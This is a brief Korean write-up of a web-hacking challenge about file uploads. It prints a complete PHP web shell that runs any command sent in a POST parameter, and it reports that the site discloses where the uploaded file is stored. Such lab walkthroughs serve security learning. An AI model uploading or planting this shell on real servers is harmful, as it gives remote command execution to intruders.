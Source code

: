 ### 풀이
![Upload Page](/img/file-upload-1.png)  
여기도 ~~사나운~~ 귀여운 너구리 한 마리가 반겨준다..  
그리고 URL을 보면 해당 사이트가 PHP를 사용하는 것을 알 수 있다.

PHP로 웹셸을 작성 후  
```php
<?php
	$cmd = $_POST['cmd'];
	if ( isset($cmd) ) { $x = exec("$cmd", $output); }
	echo	"<form action='$_SERVER[PHP_SELF]' method='post'>".
			"<input type='text' name='cmd'/>".
		"</form><hr/>".
		"<pre>";
	foreach ($output as $o) {
		echo $o."<br/>";
	}
	echo	"</pre>";
?>
```
파일을 올리면

![Uplaod Path](/img/file-upload-3.png)  
친절하게도 파일이 업로드된 위치를 알려준다. ..?
